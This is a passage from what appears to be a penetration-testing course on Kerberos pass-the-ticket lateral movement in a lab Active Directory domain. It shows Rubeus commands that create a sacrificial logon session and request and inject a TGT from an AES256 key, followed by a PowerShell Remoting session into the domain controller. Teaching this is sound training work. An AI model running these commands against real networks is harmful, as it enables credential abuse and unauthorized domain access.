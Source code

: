 Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

#### Create a Sacrificial Process with Rubeus
```cmd-session
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

#### Rubeus - Pass the Ticket for Lateral Movement

```cmd-session
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

```cmd-session
c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```